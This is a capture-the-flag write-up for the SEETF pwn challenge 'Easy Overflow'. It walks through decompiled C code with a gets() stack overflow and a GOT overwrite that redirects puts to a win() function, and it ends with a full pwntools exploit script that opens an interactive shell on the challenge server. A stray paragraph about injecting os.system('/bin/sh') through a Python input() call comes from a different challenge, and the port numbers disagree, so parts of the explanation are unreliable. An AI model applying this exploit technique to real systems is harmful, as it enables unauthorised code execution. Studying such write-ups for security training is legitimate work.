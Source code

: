 ## Easy Overflow
![overflow](images/easyoverflow.png)

### Description
>Author: @L0uisJ0shua
>It’s about drive, it’s about power, we stay hungry, we devour Put in the work, put in the hours and take what’s ours. Time to get to the Hall of Fame and be among the GOATS.
>nc fun.chall.seetf.sg 50004
>sMD5: 3264e936e673b0de0ec61698b9bb930f


### Introduction
Bufferoverflow challenge, but this time no sourcecode given, we can decompile the ELF file with IDA or Ghidra. Here I'm using IDA7.7.\
No PIE and no Canary.
```bash
linuz@linz:~/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow$ checksec easy_overflow
[*] '/home/linuz/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow/easy_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The **main()** function it's like this:\
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  puts("I will let you  overflow me.");
  vuln();
  puts("I will give you one more chance.");
  fgets(s, 8, stdin);
  puts(s);
  return 0;
}
```

And the **vuln()** function is like this:\
```c
int vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  char *retaddr; // [rsp+28h] [rbp+8h]

  gets(v1);
  if ( retaddr != main + 70 )
  {
    puts("Naughty Boi\n");
    exit(-1);
  }
  return puts("Good  boi\n");
}
```

There's a bufferoverflow in **vuln()** because program using **gets()** but there's a manual check on return if return not **main+70** it will exit.\
With this bufferoverflow we can overwrite the address of **s** at **main()** function. So after back to main it will like this.\
![overflow](images/easyoverflow2.png)
```py
payload = b'A'*32
payload += p64(0xdeadbeef)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
```
With this we can overwrite the GOT PUTS to **win()** function. Because there's `lea, [rbp-0x20]` our value will be substracted with 0x20, just add +0x20 to get the correct value.\
Full Script:

The bug is on **input()** at choice 4, because the program already **import os**, then just simply input **os.system("/bin/sh")** to get shell

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./easy_overflow")
p = process("./easy_overflow")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50003

cmd = """
b*0x00000000004011a1
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)


payload = b'A'*32
payload += p64(elf.got['puts']+0x20)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
p.sendline(p64(elf.sym['win']))
p.interactive()
````